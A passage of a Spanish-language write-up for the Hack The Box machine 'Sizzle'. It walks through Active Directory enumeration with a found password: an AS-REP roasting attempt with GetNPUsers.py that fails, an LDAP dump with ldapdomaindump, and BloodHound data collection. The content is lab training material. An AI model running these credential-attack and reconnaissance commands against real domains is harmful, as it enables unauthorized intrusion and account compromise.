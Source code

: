 Como tenemos un listado de usuarios, lanzamos un ataque ASPRoasting para ver si encontramos el TGT de otro usuario.

### Asproasting attack {-}

```bash
GetNPUsers.py htb.local/amanda:Ashare1972 -no-pass -usersfile users
```

Aqui vemos que el ataque no aranca y es normal. Si miramos el contenido del fichero targeted de **nmap** vemos que el puerto 88 de Kerberos no
esta abierto y esto no nos permite ejecutar un ASPRoasting o un Kerberosting attack.


### LDAP domain dump {-}

Intentamos recuperar informaciones desde el ldap.

```bash
cd /var/www/html
ldapdomaindump -u "htb.local\amanda" -p Ashare1972 10.10.10.103 
```

Hemos podido dumpear las informaciones del ldap en ficheros web.

```bash
service apache2 start
```

y analizamos las informaciones desde firefox en la url `http://localhost`.

Las informaciones interesantes aqui son el echo que el usuario mrlky es kerberoasteable, y que el usuario amanda puede conectarse por WinRM.

Continuamos la enumeracion ldap con **bloodhound-python**


### Bloodhound desde la maquina de atacante {-}

**Bloodhound-python** permite recuperar la informacion del ldap desde la maquina de atacante

```bash
pip install bloodhound
bloodhound-python -d htb.local -u amanda -p Ashare1972 -gc sizzle.htb.local -c all -ns 10.10.10.103
```

Ahora que tenemos los ficheros `.json` creamos un zip para entrarlo en el bloodhound

```bash
ls -la *.json
zip htblocal.zip *.json
```

Ya lo podemos analizar desde bloodhound

```bash
sudo apt install neo4j bloodhound
sudo neo4j console
```

A partir de aqui, lanzamos desde una nueva terminal el bloodhound
